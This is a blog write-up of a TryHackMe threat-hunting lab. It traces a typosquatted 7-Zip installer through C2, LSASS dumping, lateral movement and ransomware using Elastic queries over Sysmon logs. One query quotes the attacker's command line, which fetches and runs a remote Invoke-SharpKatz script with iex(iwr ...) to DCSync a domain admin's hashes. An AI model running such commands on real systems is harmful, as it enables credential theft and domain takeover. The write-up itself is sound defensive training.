+++
title = 'TryHackMe Hunt Me II: Typo Squatters write-up'
date = 2024-11-14T07:07:07+01:00
+++

**Scenario:**

*Just working on a typical day as a software engineer, Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realising that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application.*



*Last **September 26, 2023**, one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. Given this, your SOC lead has assigned you to conduct an in-depth investigation on this workstation and assess the impact of the potential compromise.*

**Questions:**

1. *What is the URL of the malicious software that was downloaded by the victim user?*

We know from the description that the victim used google chrome to download the file. We also know that downloading a file creates an event with sysmon ID 11 (File Creation).

`process.name:chrome.exe AND winlog.event_id:11`



We find that 7z2301-x64.msi was downloaded. Let's query for it to find the URL

`process.name:chrome.exe AND 7z2301-x64.msi`



2. *What is the IP address of the domain hosting the malware?*

We can simply query for DNS events that contain the attacker's domain

`7zipp.org AND network.protocol: DNS`



3. *What is the PID of the process that executed the malicious software?*

We have the name of the file and we also know that executing the software will create a new process - event ID 1

`7z2301-x64.msi AND winlog.event_id:1`

Checking the chronologically first event



4. *Following the execution chain of the malicious payload, another remote file was downloaded and executed. What is the full command line value of this suspicious activity?*

To follow the execution flow we simply search for processes with PID or PPID of 2532. This way we can see what other things the process did as well as its child processes

`process.pid:2532 OR process.parent.pid:2532`

We find another suspicious event



It has different PPID than the process we found before. As this is the only interesting thing we get let's check this out the same way we did

`process.pid:4188 OR process.parent.pid:4188`

We get a lot of suspicious events, however it all starts with execution of malicious dll



We don't know how it got on the system so again let's follow this process

`process.pid:3988 OR process.parent.pid:3988`



There is one more similar event but it was spawned by a different process. Let's look a bit closer at this event



We find the command that downloaded a powershell script and spawned this event

5. *The newly downloaded script also installed the legitimate version of the application. What is the full file path of the legitimate installer?*

We simply search for processes spawned by the script

`process.parent.pid:4248`



6. *What is the name of the service that was installed?*

The answer is within the events returned by the previous query



7. *The attacker was able to establish a C2 connection after starting the implanted service. What is the username of the account that executed the service?*

Still the same query is enough



8. *After dumping LSASS data, the attacker attempted to parse the data to harvest the credentials. What is the name of the tool used by the attacker in this activity?*

Let's go back to analyzing what happens after the attackers executes their malicious dll. The PID of that process is 4188 so we simply query for it's child processes

`process.parent.pid:4188`



We see the attacker uses Invoke-NanoDump to dump the LSASS data and then parses it with Invoke-PowerExtract

9. *What is the credential pair that the attacker leveraged after the credential dumping activity? (format: username:hash)*

Same search, few events later we have the answer



10. *After gaining access to the new account, the attacker attempted to reset the credentials of another user. What is the new password set to this target account?*

A little bit more events later



11. *What is the name of the workstation where the new account was used?*

Even more events later...Since all these events happened on workstation WKSTN-03 we can see that the attacker pivoted to WKSTN-02 using anna.jones account



12. *After gaining access to the new workstation, a new set of credentials was discovered. What is the username, including its domain, and password of this new account?*

Obviously we have to search for anna.jones and WKSTN-02. We can also add some filters as otherwise we get thousands of events

`user.name:anna.jones AND host.hostname:WKSTN-02 AND process.command_line:* AND process.name:*`

After searching through events we find an answer



13. *Aside from mimikatz, what is the name of the PowerShell script used to dump the hash of the domain admin?*

After searching some more



14. *What is the AES256 hash of the domain admin based on the credential dumping output?*



We have the ntlm hash in this event. To find its AES256 hash we need to find an event that contains the output of the attackers command that dumped the hashes

```process.command_line:"-C iex(iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpKatz.ps1 -useb); Invoke-Sharpkatz -Command '--Command dcsync --Domain swiftspendfinancial.thm --DomainController DC-01.swiftspendfinancial.thm --User damian.hall'" AND hash```

Looking closer at the event returned we find an answer



15. *After gaining domain admin access, the attacker popped ransomware on workstations. How many files were encrypted on all workstations?*

Going back to this search from Q12

`user.name:anna.jones AND host.hostname:WKSTN-02 AND process.command_line:* AND process.name:*`



We see that last events execute bomb.exe on both workstations. This is more than likely the ransomware. Let's find out how many file has this process created (ID 11)

`process.name:bomb.exe AND winlog.event_id:11`



We get 46 events returned